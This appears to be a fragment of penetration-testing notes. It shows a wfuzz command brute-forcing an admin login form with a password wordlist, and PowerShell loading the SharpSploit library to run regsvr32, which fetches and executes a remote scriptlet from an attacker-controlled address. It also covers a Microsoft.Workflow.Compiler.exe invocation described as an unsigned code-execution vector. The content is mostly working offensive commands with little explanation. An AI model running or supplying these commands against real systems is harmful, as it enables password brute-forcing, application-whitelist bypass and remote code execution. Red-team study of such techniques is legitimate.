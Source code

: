 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

<pre>
Start-Process "powershell" "unblock-file .\SharpSploit.dll"

Add-Type -Path .\SharpSploit.dll

[SharpSploit.Execution.Shell]::ShellExecute("regsvr32 /s /n /u /i:http://192.168.48.151:9999/QuHBoZ.sct scrobj.dll")
</pre>

![sharpsploit](https://user-images.githubusercontent.com/7115563/46204073-2c07a800-c31c-11e8-9905-76c168432018.png)

References: https://cobbr.io/SharpSploit.html

<b> Workflow.Compiler </b>

<pre> C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe test.xml results.xml </pre>

![workflow](https://user-images.githubusercontent.com/7115563/46660701-e79bc800-cbb7-11e8-8e07-49615b17d258.png)

References:

https://www.codeproject.com/Articles/25983/How-to-Execute-a-Command-in-C
https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb





